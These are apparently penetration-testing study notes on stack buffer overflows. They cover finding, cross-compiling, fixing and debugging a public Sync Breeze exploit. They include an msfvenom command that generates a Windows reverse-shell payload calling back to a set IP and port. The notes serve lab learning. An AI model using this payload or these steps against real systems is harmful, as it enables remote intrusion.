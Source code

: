 ```yaml
---
tags: ImmunityDebugger
---
```

## Buffer overflow

Basic stack buffer overflow steps (assume no ASLR or Executable Space Protection):
1. Create large buffer to trigger overflow
2. Pad buffer and overwrite EIP to appropriate address
3. Include payload in buffer prepended by an optional NOP slide
4. Choose a correct return address instruction such as JMP ESP to redirect execution flow to payload

Things to consider when using public exploit:
- We should verify if the return address used in the original exploit is correct by cloning the target environment locally in a VM and using a debugger on the vulnerable software.
- We must also consider changing the payload contained in the original exploit code.
- Public exploits present an inherent danger because they often contain hex-encoded payloads that must be reverse-engineered to determine how they function. Because of this, we must always review the payloads used in public exploits or better yet, insert our own.
- When creating own payload, include our own IP address and port number. Exclude certain bad characters (e.g.`\x00`) which will break the application when included in the payload.

## Importing and Examining the Exploit

Example: target *Sync Breeze Enterprise 10.0.28*
1. Search available exploits for this product and version:
   `searchsploit "Sync Breeze Enterprise 10.0.28"`
2. Avoid Denial of Service exploits. Focus on the Remote Buffer Over exploits.
3. Copy searchsploit script to current directory:
   `searchsploit -m windows/dos/42341.c`
4. Examine the exploit

## Cross-Compiling Exploit Code

Python: scripting language, executed through an interpreter instead of compiled to create a standalone executable

C: needs to be compiled into a standalone executable

> Notice any headers in the C code which may indicate that the code should be compiled on a specific OS (e.g. `winsock2.h` would indicate that the code should be compiled on Windows)

To avoid compilation issues, it is generally recommended to use native compilers for the specific operating system targeted by the code.

To execute cross-compiled code meant for Windows on Kali, use **wine**.

#### mingw-w64

mingw-w64: a cross-compiler for compiling code into PE file on Linux

Install mingw-w64:
`sudo apt install mingw-w64`

Compile code into PE file:
`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe`

## Fixing the Exploit

- Adjust hardcoded IP address and port
- Check the return address: if it is not a part of the vulnerable software, is it present in the target? 
	- Procedure:
		1. Start Sync Breeze Service on the Windows 10 client
		2. Launch Immunity Debugger as admin, click File > Attach, select *syncbrs* process
		3. Click View > Executable modules
		4. Verify if the dll that the return address uses is present
	- Solutions:
		- Reference another exploit which is marked as **EDB Verified** on the exploit-db website (e.g. https://www.exploit-db.com/exploits/42928) and use the return address used by that exploit instead.
		- Recreate the target environment locally and use a debugger to determine this address
		- Use information from other publicly-available exploits to find a reliable return address that will match our target environment. (E.g. search for a return address for a JMP ESP instruction on Windows Server 2019)
		- During a “vanilla” buffer overflow, we should not rely on hard-coded JMP ESP addresses coming from system DLLs, since these are all randomized at boot time due to ASLR. Instead, we should try to find these instructions in non-ASLR modules inside the vulnerable application whenever possible.
- Can generate own payload with msfvenom (note bad chars (may be listed in the original exploit code), platform (e.g. x86), code format (e.g. C))
	- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`
		- `-b "[bad chars]"`: specify bad chars

## Testing the Exploit

 Tool: Immunity Debugger (Windows)
 1. Attach target software
 2. Press Ctrl + G
 3. Press F2 to set breakpoint at the JMP ESP address
 4. Run application and attempt to execute exploit from Kali
 5. Check if the value in EIP at the breakpoint is correct
 6. Debug and repeat

